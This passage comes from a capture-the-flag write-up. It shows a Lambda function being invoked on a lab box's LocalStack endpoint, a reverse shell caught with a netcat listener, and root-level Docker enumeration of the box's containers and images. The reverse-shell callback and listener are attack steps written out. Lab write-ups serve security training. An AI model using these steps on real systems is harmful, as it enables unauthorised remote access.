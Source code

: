 


And on invoking with:



    oxdf@hacky$ aws lambda invoke --function-name shell --endpoint-url http://s3-testing.stacked.htb out.json



It hangs, but a shell returns:



    oxdf@hacky$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.11.112] 54300
    bash: cannot set terminal process group (1479): Not a tty
    bash: no job control in this shell
    bash-5.0# 



## Shell as root on Stacked

### Enumerate Docker

Because the container is spawning dockers, at least the root user must
have access to the docker socket. As localstack, I could not access it
because the user can't read the certificate:



    bash-5.0$ docker ps
    WARNING: Error loading config file:/root/.docker/config.json - stat /root/.docker/config.json: permission denied
    could not read CA certificate "/root/.docker/ca.pem": open /root/.docker/ca.pem: permission denied



root doesn't have that issue:



    bash-5.0# docker ps
    CONTAINER ID        IMAGE                               COMMAND                  CREATED             STATUS              PORTS                                                                                                  NAMES
    1af67837dbde        localstack/localstack-full:0.12.6   "docker-entrypoint.sh"   4 hours ago         Up 4 hours          127.0.0.1:443->443/tcp, 127.0.0.1:4566->4566/tcp, 127.0.0.1:4571->4571/tcp, 127.0.0.1:8080->8080/tcp   localstack_main



There are a handful of images available:



    bash-5.0# docker image ls
    REPOSITORY                   TAG                 IMAGE ID            CREATED             SIZE
    localstack/localstack-full   0.12.6              7085b5de9f7c        5 weeks ago         888MB
    localstack/localstack-full   <none>              0601ea177088        6 months ago        882MB
    lambci/lambda                nodejs12.x          22a4ada8399c        6 months ago        390MB
    lambci/lambda                nodejs10.x          db93be728e7b        6 months ago        385MB
    lambci/lambda                nodejs8.10          5754fee26e6e        6 months ago        813MB
